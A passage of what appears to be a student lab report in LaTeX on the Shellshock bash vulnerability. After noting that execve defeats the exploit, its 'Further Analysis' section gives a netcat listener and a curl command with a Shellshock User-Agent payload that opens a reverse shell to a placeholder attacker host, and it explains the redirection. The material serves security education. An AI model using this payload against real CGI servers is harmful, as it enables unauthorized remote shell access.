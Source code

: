 \documentclass[a4paper,12pt]{article}
\begin{document}
\begin{figure}[H]
	\centering
	\texttt{[image: Privcheck]}
	\caption{UID \& EUID Check}
	\label{fig:privcheck}
\end{figure}
\noindent If \texttt{execve} is used instead of \texttt{system}, the exploit will also not work. This is due to \texttt{execve} not requiring the execution of \texttt{bash} to run the code, as such even if the malicious function is exported, it will not work. The code for this part has been attached in the \hyperref[Appsec3.4]{Appendix}.
\begin{figure}[H]
	\centering
	\texttt{[image: noshellexecve]}
	\caption{No Shell Escalation}
	\label{fig:noshellexecve}
\end{figure}
\newpage
\section{Further Analysis}
It is possible to combine the methods of shellshock and shell redirect to obtain access on the remote system via reverse shell. On the attacker's computer, two Terminals would need to be opened.\\\\
Terminal 1 will have the following code:
\begin{verbatim}
nc -l 9090 -v
\end{verbatim}
This is to allow Terminal to listen for incoming connections on port 9090.
\\\\Terminal 2 will have the following code:
\begin{verbatim}
curl -A "() { :;}; echo Content-type: text/plain; echo; 
/bin/bash -i > /dev/tcp/<Attacker IP Address>/9090 2>&1 0<&1"
http://<Victim IP Address or TLD URL>/<Path to CGI Program>
\end{verbatim}
The code from Terminal 2 is then executed, which will push the request to the victim's computer, execute the \texttt{bash} function in interactive mode and redirect the shell to the attacker's computer. It is worth noting that \texttt{0} represents \textit{STDIN} (standard input), \texttt{1} represents \textit{STDOUT} (standard output) and \texttt{2} represents \textit{STDERR} (standard error). This means that the code snippet \texttt{2>\&1 0<\&1} redirects the standard error from the victim to the attacker's computer as standard output. Similarly, the standard output from the attacker's computer will be used as the input on the victim's system.
\end{document}
